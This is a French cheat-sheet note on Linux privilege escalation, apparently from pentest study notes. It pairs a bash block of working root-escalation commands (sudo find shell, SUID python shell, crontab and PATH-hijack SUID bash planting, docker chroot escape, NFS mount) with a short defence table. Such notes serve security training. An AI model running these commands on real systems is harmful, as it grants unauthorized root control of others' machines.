

# 🐧 Privilege Escalation Linux

> [!info] **En 1 phrase**
> Passer d'un utilisateur limité à **root** en exploitant une mauvaise configuration du système
> (sudo, SUID, cron, capabilities, docker...).

---

## 🎯 Concept



---

## 🛠️ Exploitation

```bash
# Automatisation d'abord
./linpeas.sh -a > linpeas.out

# 1. Sudo
sudo -l
sudo -u root /usr/bin/find / -exec /bin/sh -p \; -quit
# 2. SUID
find / -perm -4000 2>/dev/null
/usr/bin/python3 -c 'import os;os.setuid(0);os.system("/bin/bash -p")'
# 3. Cron (script root modifiable)
cat /etc/crontab; ls -la /etc/cron.d/
echo "cp /bin/bash /tmp/r; chmod 4755 /tmp/r" >> /var/spool/cron/crontabs/root
# 4. Capabilities
getcap -r / 2>/dev/null
# 5. Docker
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# 6. NFS no_root_squash → monter + SUID
mount -t nfs 192.168.1.10:/share /mnt
# 7. PATH hijack (script root appelant "tar" sans chemin)
echo 'cp /bin/bash /tmp/root; chmod 4755 /tmp/root' > /tmp/tar; chmod +x /tmp/tar; export PATH=/tmp:$PATH
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Auditer sudo/sudoers** | Retirer les binaires NOPASSWD inutiles |
| **Restreindre SUID** | Retirer le bit setuid inutile |
| **Cron** | Scripts root en écriture root uniquement |
| **No root_squash sur NFS** | Interdit par défaut |
| **Mises à jour kernel** | Patchs de sécurité |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **GTFOBins est ton meilleur ami**
> Chaque binaire sudo/SUID → `gtfobins.github.io` pour la technique d'évasion exacte.

> [!warning] ⚠️ **Piège** : **pas d'exploit kernel en premier** — crash possible. Les misconfigs sont stables et non destructrices. Kernel = dernier recours.

---

## 🔗 Liens

- [[Reverse Shells|🕸️ Reverse Shells]]
- [[Privilege Escalation Windows|🪟 Privesc Windows]]
- → Note complète : [[06 - Post-Exploitation|🕹️ Post-Exploitation]]
